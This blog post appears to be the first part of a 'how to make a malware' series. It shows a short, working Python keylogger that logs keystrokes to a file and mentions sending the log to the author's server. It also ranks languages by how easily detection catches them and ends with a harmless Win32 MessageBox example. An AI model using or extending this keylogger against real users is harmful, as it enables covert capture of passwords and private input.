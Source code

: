 ```yaml
---
title: Intro to how to make a malware
author: 0x41ly
classes: wide
ribbon: red
date: 2021-06-22 18:00:00 +0800
header:
  teaser: 'https://i.imgur.com/o37B2mV.png'
description: How to make a malware series.
categories: Exploit-Development
toc: true
published: true
---
```


## Hi guys

Well, I have decided to build malware, so let's make it together.

### What is malware? 
Just a piece of code. let's have an example 
In the gaming world, how could a game detect which key
you have pressed?. Let's see this piece of code. Don't panic. we will use python for simplicity but don't expect that all time :)

```
from pynput import keyboard
def on_press_func(key):
	
	\\do something for the game
	
listener = keyboard.Listener(on_press=on_press_func)
listener.start()

```
So how can that be malware? Yes, that is KeyLogger. 
What does a KeyLogger do?. Just save what you press on the keyboard then, it sends it or whatever it does. Let's see how a KeyLogger looks like.

```
from pynput import keyboard
def on_press_func(key):
	with open('keylogs.txt', 'a') as logs:
		logs.write(str(key))
	
listener = keyboard.Listener(on_press=on_press_func)
listener.start()
```
We can then send this file to our server or wherever.
So we are here just making a program which can do whatever we went it to do.

Now, what do we need to know before we launch our coding process?
1. What kind of malware is it (Trojan, worm, virus,.etc)
2. Which protocol it will use (TCP, UDP, HTTP, HTTPS)
3. What program language you want to use

| language         | detection        | size             | performance            |      
| :----            |  :-----:          |     :-------:    |     :----:             |
| Python/Ruby      | Easy             |    Large         | Slow                   |
| Golang           | Medium           |    Large         | Medium                 |
| C/C++            | Hard             |    Small         | Fast                   |

So you are free for what you want to use. For me, I'm going to use C++ as a language. So, all we need is a c++ compiler and a VM to play with it.

Let's start with simple MsgBox. But first, we have to know some basics.
What is Win32APIs?
Alternatively referred to as the Windows API and WinAPI, Win32 is the main set of Microsoft Windows APIs used for developing 32-bit applications. These APIs are responsible for functions in the following categories:
* Administration and Management - Install, configure, and service applications or systems.
* Diagnostics - Troubleshoot application, system problems, and monitor performance.
* Graphics and Multimedia - Incorporate formatted text, graphics, audio, and video.
* Networking - Communicate between applications on different computers on a network.
* Security - Password authentication, discretionary protection for all sharable system objects, privileged access control, rights management, and security auditing.
* System Services - Gives access to computer resources and the underlying operating system, such as memory, file system, devices, processes, and threads.
* Windows User Interface - Create and manage a user interface, such as display output, prompt for user input, and support for user interaction.

So generally, you can control anything with those APIs. But how? let's try.
You can find whatever you need in Microsoft docs like [MessageBox function](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa)

## Syntax 
```
int MessageBoxA(
  HWND    hWnd,
  LPCTSTR lpText,
  LPCTSTR lpCaption,
  UINT    uType
);
```
So it's a function with returned value of int type indicates which button the user clicked.
Our first task is making a program to show Message Box with "Hello From Nakerah" as a text with any title you want. 

```
#include <windows.h>
int APIENTRY WinMain( HINSTANCE hInst, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow )
{
	MessageBoxA( NULL, "Hello From Nakerah", "Nakerah NG", MB_OK );
	return 0;
}
```
Let's analyze this simple piece of code.
Well, It just includes windows.h then the mai.. what?. Where is the main function?. Don't panic. Every Windows program includes an entry-point function that is named either WinMain or wWinMain you can find more [here](https://docs.microsoft.com/en-us/windows/win32/learnwin32/winmain--the-application-entry-point)
now the second line, the [MessageBoxA](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-messageboxa) function takes four parameters: 
*  'hWnd':  which means the message box has no owner window. I have set it to NULL.
*  'lpszText': the string we wanna Msgbox to include.
*  'lpszTitle':  which is the title of the box.
*  'uType': which is buttons od Msgbox.

Let's compile. I used [DEV](https://www.bloodshed.net/) as a compiler. <\br> 
The steps are simple:
* Create a new document (project), copy then paste the above code. 
![](/assets/images/0x41ly-blog-img/cpp/0.png)
* Execute then compile
![](/assets/images/0x41ly-blog-img/cpp/2.png)
* Save it wherever you want. You will find two files, one with exe extension and another with cpp extension. Double click the exe file and 
![](/assets/images/0x41ly-blog-img/cpp/3.png) 

That's enough for today. See you :)
